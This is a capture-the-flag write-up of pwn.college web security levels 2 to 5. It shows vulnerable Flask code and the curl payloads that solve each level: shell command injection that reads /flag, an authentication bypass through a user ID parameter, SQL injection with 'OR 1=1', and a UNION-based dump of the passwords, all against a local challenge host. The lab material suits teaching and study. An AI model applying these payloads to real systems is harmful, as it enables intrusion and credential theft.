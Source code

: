 # Web Security

pwn.college [Web Security](https://pwn.college/intro-to-cybersecurity/web-security/) dojo.

## Level 2 - Command injection

Code for the level

```python
def level2():
    timezone = request.args.get("timezone", "UTC")
    return subprocess.check_output(f"TZ={timezone} date", shell=True, encoding="latin")
```

I want to inject `TZ=; cat /flag # date` into `TZ={timezone} date`.

```sh
curl "http://challenge.localhost:80?timezone=;%20cat%20/flag%20%23"
```

## Level 3 - Authentication bypass vulnerability

Code for the level

```python
def level3():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f"SELECT rowid, * FROM users WHERE username = ? AND password = ?", (username, password)).fetchone()
        assert user, "Invalid `username` or `password`"

        return redirect(request.path, user=int(user["rowid"]))

    if "user" in request.args:
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```

I simply need to skip authentication and provide the user ID,

```sh
curl http://challenge.localhost:80?user=1
```

## Level 3 - SQL Injection

Code for this level:

```python
def level4():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? as password'),
               (flag,))

    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")
        assert username, "Missing `username` form"
        assert password, "Missing `password` form"

        user = db.execute(f'SELECT rowid, * FROM users WHERE username = "{username}" AND password = "{password}"').fetchone()
        assert user, "Invalid `username` or `password`"

        session["user"] = int(user["rowid"])
        return redirect(request.path)

    if session.get("user"):
        user_id = int(session.get("user", -1))
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        if user:
            username = user["username"]
            if username == "flag":
                return f"{flag}\n"
            return f"Hello, {username}!\n"

    return form(["username", "password"])
```

This time, the user is stored in a `session` so we can't send it. Instead, we want to exploit the fact that the `username` and `password` are used to form the SQL string for authenticating the user. I want to change it to something like this;

```sql
SELECT rowid, * FROM users WHERE username = "flag" AND password = "" OR 1=1 --"
```

To do this, I use `curl` to login,

```sh
curl -v -c cookies.dat --data "username=flag" --data "password=%22 OR 1=1 --" -X POST http://challenge.localhost:80
```

Then I pull the session cookie out and follow the redirect,

```sh
curl -v -b session=eyJ1c2VyIjoxfQ.ZnCLHA.yyxgmZ5gotlukXOhlRf99GfV4RU http://challenge.localhost:80
```

## Level 5 - SQL injection using UNION

The code for this level,

```python
def level5():
    db.execute(("CREATE TABLE IF NOT EXISTS users AS "
                'SELECT "flag" AS username, ? AS password'),
               (flag,))

    query = request.args.get("query", "%")
    users = db.execute(f'SELECT username FROM users WHERE username LIKE "{query}"').fetchall()
    return "".join(f'{user["username"]}\n' for user in users)
```

In this case, I want to take advantage of the `query` parameter to create a SQL statement,

```sql
SELECT username FROM users WHERE username LIKE "" UNION SELECT password FROM users --"
```

I form this in `curl`,

```sh
curl -v http://challenge.localhost:80?query=%22%20UNION%20SELECT%20password%20FROM%20users%20--
```
